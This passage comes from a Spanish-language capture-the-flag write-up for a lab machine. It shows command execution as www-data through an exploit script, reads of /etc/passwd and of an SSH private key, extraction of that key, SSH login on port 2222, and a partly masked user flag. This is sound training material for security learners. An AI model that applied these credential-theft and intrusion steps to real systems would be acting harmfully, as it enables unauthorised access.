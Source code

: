 De esta forma el propio script nos descodifica automáticamente el output del comando insertado

```bash
❯ python2 exploit_shell.py
>> system("whoami")
www-data
```

Enumerando el archivo `/etc/psswd` nos percatamos que el usuario `www-data` tiene directorio personal en `/home`

```bash
>> system("grep www-data /etc/passwd")
www-data:x:33:33:www-data:/home/www-data:/bin/bash
```

Listando contenido del directorio home de www-data tenemos capacidad de listar contenido del directorio `/home/www-data/.ssh` y encontramos una clave privada `id_rsa`. Sólo hay un pequeño problema y es que sólo nos lista una única línea, en este caso vemos la última línea del archivo id_rsa

```bash
>> system("cat /home/www-data/.ssh/id_rsa")           
-----END RSA PRIVATE KEY-----
```

Mediante filtrado con comandos en bash exatremos línea a línea y nos importamos la clave id_rsa a nuestro equipo. Tratamos de conectarnos y nos pide contraseña, pero recordemos que tenemos el puerto 2222 con el servicio open ssh disponible. Nos conectamos sin problema al puerto 2222. la flag de usuario de bajos privilegios la localizamos en el directorio `/home`

```bash
❯ ssh -i id_rsa www-data@10.10.10.246
www-data@10.10.10.246 s password: 

❯ ssh -i id_rsa www-data@10.10.10.246 -p 2222
The authenticity of host '[10.10.10.246]:2222 ([10.10.10.246]:2222)' can t be established.
ECDSA key fingerprint is SHA256:SO5uMKk4fPWk/kDc0dLD5Uf7dlyIes4r6s26waZlxkQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.246]:2222' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.19.0-17-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Jun 14 08:00:30 2021 from 10.10.14.4
www-data@web:~$ whoami
www-data
www-data@web:/home$ cat user.txt 
0b5dcbfc091785dad***************
```
